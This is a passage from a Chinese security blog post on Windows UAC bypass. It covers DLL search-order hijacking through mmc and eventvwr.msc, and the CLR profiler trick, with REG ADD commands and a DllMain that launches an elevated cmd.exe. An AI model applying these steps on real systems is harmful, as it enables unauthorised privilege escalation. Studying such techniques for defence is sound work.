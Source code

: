 我们 process monitor 设置过滤如下

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG69gibSxyjeaRwbC1HWeia3jLkBGFrxACOPCdZvT62rLribzAmY9pk1PDTQ/640?wx_fmt=png)

cmd 运行 mmc eventvwr.msc, 查看调用

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG6gOJTXa87GTn6HWuNTNxibtkVK7ApI0BxicXicFJufAjqS5H2iaNrqHFayQ/640?wx_fmt=png)

dll 搜索顺序确实是 程序目录 ->SYSTEM32->SYSTEM->WINDOWS-> 当前目录（这里也是 SYSTEM32 目录，我认为的原因是 mmc 会自动提升权限导致当前目录为 System32 导致的）->PATH 目录。

我们只需在可写目录下植入名为 elsext.dll 的恶意 dll，处理好 dll 的 dllmain 函数，就能让 dllmain 里的指令被高权限执行

但是无奈我这里环境是 win7 sp1, 但是这个洞 7600 才出现，所以复现不了了。但大概思路就是这样的

2. CLR 加载任意 DLL
---------------

CLR 是微软为. net 运行时提供的环境，像 java 的虚拟机一样，而 clr 有一个 Profiling 机制。这个机制简而言之便是可以给 CLR 提供一个 dll，当任何高权限. NET 运行时都会主动加载该 DLL，我们可以构造恶意 dll 给 CLR 加载，从而获得高权限的进程如 cmd，从而 bypassuac。

至于这个 dll 如何给 CLR，是通过修改以下环境变量实现的

<table width="797"><tbody><tr><td><pre class="hljs cpp">作者：ConsT27，转载于https://www.const27.com</pre></td></tr></tbody></table>

CLR 会检查环境变量中的 COR_ENABLE_PROFILING，若为 1 则检查通过，进行下一步。  
在 net4.0 以前，若检查通过，会马上去查找 COR_PROFILER 指定的注册表项，找到其 dll 路径并加载  
net4.0 后，会先查找 COR_PROFILER_PATH 是否指定 dll 文件路径，若没有再去查找 COR_PROFILER 指定的注册表项，找到其 dll 路径并加载。  
总而言之，我们设置好 COR_ENABLE_PROFILING 和 COR_PROFILER 两个项就可以了。

接下来我们设置用户环境变量，设置用户环境变量时不需要高权限（win10 似乎设置系统环境变量也不需要）。  
以及在注册表，在指定的 CLSID 属性下新建 Inprocserver32 项，并写入恶意 dll 路径. 然后通过 mmc 调用一下 gpedit.msc 这种程序，即可以高权限执行 dll。如果 dll 执行命令为 system(“cmd.exe”) 那么就会蹦出来高权限 cmd 窗口

<table width="797"><tbody><tr><td><pre class="hljs nginx">REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\test\calc.dll" /f
REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
mmc gpedit.msc</pre></td></tr></tbody></table>

但我死活复现不起不知道为啥，我的 dll 这样写的

<table width="797"><tbody><tr><td><pre class="hljs cpp">// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include &lt;iostream&gt;
#include &lt;Windows.h&gt;

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    char cmd[] = "cmd.exe";

    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        WinExec(cmd, SW_SHOWNORMAL);
        ExitProcess(0);
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}</pre></td></tr></tbody></table>
